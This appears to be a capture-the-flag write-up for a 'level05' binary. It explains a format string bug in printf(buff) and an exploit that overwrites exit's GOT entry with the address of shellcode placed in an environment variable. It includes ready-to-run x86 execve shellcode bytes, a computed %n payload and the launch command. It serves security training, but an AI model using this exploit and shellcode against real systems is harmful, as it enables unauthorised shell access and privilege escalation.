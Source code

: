 # LEVEL 05

## EXPLANATIONS

### BINARY BEHAVIOR

- fgets stdin into stack buffer
- modify buffer with strtolower on buffer
- printf(buff) format string exploit

### EXPLOIT STRATEGY

- Overwrite GOT addresses of exit by SHELLCODE (which may be alterate by strtolower())
  - GOT of exit : 0x80497e0
  - => create an env variable which contains the SHELLCODE
  - => find the env variable address (we found an utilitary written in C to do this)
  - => as the address is 0xffffdfc2, necessary padding for the %n exploit would be 4294959042
    - => we split it in two 2bytes parts, writing them at 0x80497e0 and 0x80497e2
      - => 0xffff => 0x80497e2
      - => 0xdfc2 => 0x80497e0

### RUN COMMAND

```
export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')")
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1]  + '%57274x' + '%10\$n' + '%8253x' + '%11\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD SHELLCODE=$SHELLCODE /home/users/level05/level05
```
